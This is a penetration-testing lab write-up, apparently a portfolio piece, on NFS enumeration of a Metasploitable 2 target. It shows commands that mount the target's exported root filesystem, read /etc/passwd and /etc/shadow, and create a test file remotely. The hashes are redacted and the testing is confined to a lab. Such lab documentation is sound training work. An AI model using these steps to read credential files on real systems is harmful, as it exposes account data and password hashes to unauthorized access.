





# NFS Enumeration

## Service Information

- **Service:** Network File System (NFS)
- **Port:** TCP/2049 and UDP/2049
- **Versions identified:** NFSv2, NFSv3 and NFSv4
- **Related RPC services:** mountd, nlockmgr and status
- **Target:** Metasploitable 2

## 1. NFS Service Identification

NFS was previously identified during RPC enumeration as program `100003`, with versions 2, 3 and 4 registered on the target.

The service was then verified directly using Nmap:

```bash
nmap -p 2049 -sV 192.168.56.20
```

Nmap identified:

```text
2049/tcp open nfs 2-4 (RPC #100003)
```



This confirmed that the target was exposing NFS directly on TCP/2049.

The RPC assessment had additionally demonstrated that NFS was registered over both TCP and UDP.

## 2. NFS Export Enumeration

The next step was to determine which filesystems were exported by the NFS server.

The following command was used:

```bash
showmount -e 192.168.56.20
```

The server returned:

```text
Export list for 192.168.56.20:
/ *
```



This was the key configuration finding.

The root filesystem:

```text
/
```

was exported to:

```text
*
```

The `*` wildcard indicates that the export was not restricted to a specific trusted client or network.

Exporting the entire root filesystem in this manner creates a significant security exposure.

## 3. Mounting the NFS Export

Because the root filesystem was exported, we tested whether the export could actually be mounted from the Kali assessment host.

First, a local mount point was created:

```bash
mkdir /mnt/metasploitable2_nfs
```

The remote NFS export was then mounted:

```bash
mount -t nfs 192.168.56.20:/ /mnt/metasploitable2_nfs
```

The mount operation succeeded.

The mounted filesystem was inspected with:

```bash
ls /mnt/metasploitable2_nfs
```

The resulting directory listing included system directories such as:

```text
bin
boot
dev
etc
home
lib
proc
root
sbin
sys
tmp
usr
var
```



This confirmed that the exported filesystem was not merely discoverable: the assessment host was able to mount the target's root filesystem and access its contents.

## 4. Access to /etc/passwd

After mounting the filesystem, access to the system account database was tested:

```bash
cat /mnt/metasploitable2_nfs/etc/passwd
```

The file was readable and contained local system accounts including:

```text
root
msfadmin
user
service
postgres
mysql
tomcat55
```



The `/etc/passwd` file does not normally contain password hashes on modern Linux systems, but it provides useful account information such as:

- Usernames.
- UIDs and GIDs.
- Home directories.
- Login shells.
- Service accounts.

This information can assist further reconnaissance and credential-related attacks.

## 5. Access to /etc/shadow

The mounted filesystem was then tested for access to the password-shadow database:

```bash
cat /mnt/metasploitable2_nfs/etc/shadow
```

The file was readable from the remotely mounted filesystem.


The evidence demonstrates that password authentication material was accessible through the NFS mount.

The screenshot has been sanitized for public release. Password hashes have been redacted because publishing credential material is unnecessary for demonstrating the finding.

The security finding is the **unauthorized remote read access to `/etc/shadow`**, not the publication of the hashes themselves.

### Evidence Redaction

The original laboratory screenshot contained password hashes.

Before publication to the public GitHub repository, the hashes were visually redacted using an AI-assisted image-editing tool.

The redaction does not alter the technical evidence relevant to the finding. It was performed solely to prevent credential material from being unnecessarily exposed in the public repository.

## 6. Testing Remote Write Access

The assessment also tested whether the mounted filesystem permitted file creation.

Rather than modifying an important system file, the test was performed inside `/tmp`:

```bash
touch /mnt/metasploitable2_nfs/tmp/test2_nfs
```

The resulting file was then verified:

```bash
ls -l /mnt/metasploitable2_nfs/tmp/test2_nfs
```

The file was successfully created:

```text
-rw-r--r-- 1 root root 0 ... /mnt/metasploitable2_nfs/tmp/test2_nfs
```



This demonstrated that the NFS exposure was not limited to read access: the assessment host was also able to create a file through the remotely mounted filesystem.

The test was deliberately limited to a harmless file in `/tmp` and did not modify system configuration or execute code on the target.

## NFS Security Analysis

The enumeration demonstrated a complete access chain:

```text
NFS service exposed
        ↓
Root filesystem exported to *
        ↓
Remote NFS mount succeeds
        ↓
Target filesystem becomes accessible
        ↓
/etc/passwd readable
        ↓
/etc/shadow readable
        ↓
Remote file creation confirmed
```

This is significantly more serious than simply identifying an NFS service.

The security issue is the combination of:

- Root filesystem export.
- Unrestricted client specification using `*`.
- Successful remote mounting.
- Access to sensitive system files.
- Access to password hashes.
- Confirmed remote write access.

## Enumeration Summary

The assessment established that:

- NFS was exposed on TCP/2049.
- NFS versions 2, 3 and 4 had previously been identified through RPC enumeration.
- The server exported the entire root filesystem `/`.
- The export was available to `*`.
- The root filesystem could be mounted remotely.
- System directories such as `/etc`, `/root`, `/home` and `/var` were accessible.
- `/etc/passwd` was readable.
- `/etc/shadow` was readable.
- Password hashes were redacted from the public evidence.
- A file could be created remotely under `/tmp`.

The evidence chain is:

**NFS identification → export enumeration → root filesystem mounted → sensitive file disclosure → remote write-access verification**

## Security Considerations

The observed configuration represents a severe NFS security weakness.

Exporting the root filesystem to unrestricted clients can expose sensitive operating-system data and significantly weaken filesystem isolation.

The ability to access `/etc/shadow` demonstrates that the exposure extends to password authentication material.

The successful write test further demonstrates an integrity impact in addition to confidentiality impact.

The exact consequences of write access depend on NFS identity mapping, filesystem permissions and the privileges available to the client.

## Scope and Limitations

The assessment was conducted against the intentionally vulnerable Metasploitable 2 laboratory environment.

Testing was limited to NFS service identification, export enumeration, controlled mounting, file-access validation and a controlled write test.

No persistence, destructive modification, privilege escalation or post-compromise activity was performed.

The write-access test was limited to creation of a harmless file under `/tmp`.

## Evidence Summary

The NFS assessment uses six screenshots:

```text
14_NFS01_nmap_nfs_detection.png
14_NFS02_nfs_export_root_to_all.png
14_NFS03_nfs_root_filesystem_mounted.png
14_NFS04_nfs_passwd_disclosure.png
14_NFS05_nfs_shadow_disclosure_(REDACTED).png
14_NFS06_nfs_write_access.png
```

The evidence represents six distinct stages of the assessment:

1. **Nmap** — NFS service identification.
2. **showmount** — root filesystem exported to all clients.
3. **mount** — remote root filesystem successfully mounted.
4. **passwd** — system account information exposed.
5. **shadow** — password authentication material exposed.
6. **write test** — remote file creation confirmed.

## Commands

### NFS service detection

```bash
nmap -p 2049 -sV 192.168.56.20
```

### Enumerate NFS exports

```bash
showmount -e 192.168.56.20
```

### Create local mount point

```bash
mkdir /mnt/metasploitable2_nfs
```

### Mount the NFS root export

```bash
mount -t nfs 192.168.56.20:/ /mnt/metasploitable2_nfs
```

### Inspect the mounted filesystem

```bash
ls /mnt/metasploitable2_nfs
```

### Read /etc/passwd

```bash
cat /mnt/metasploitable2_nfs/etc/passwd
```

### Read /etc/shadow

```bash
cat /mnt/metasploitable2_nfs/etc/shadow
```

### Test write access

```bash
touch /mnt/metasploitable2_nfs/tmp/test2_nfs
```

### Verify the created file

```bash
ls -l /mnt/metasploitable2_nfs/tmp/test2_nfs
```

## Portfolio Conclusion

**"The target exposed NFS and exported the root filesystem (`/`) to all clients (`*`). The export was successfully mounted from the assessment host, providing access to the target filesystem. Sensitive files including `/etc/passwd` and `/etc/shadow` were readable, and remote write access was demonstrated through controlled file creation under `/tmp`. Password hashes were redacted from the public evidence. No persistence, privilege escalation or destructive modification was performed."**
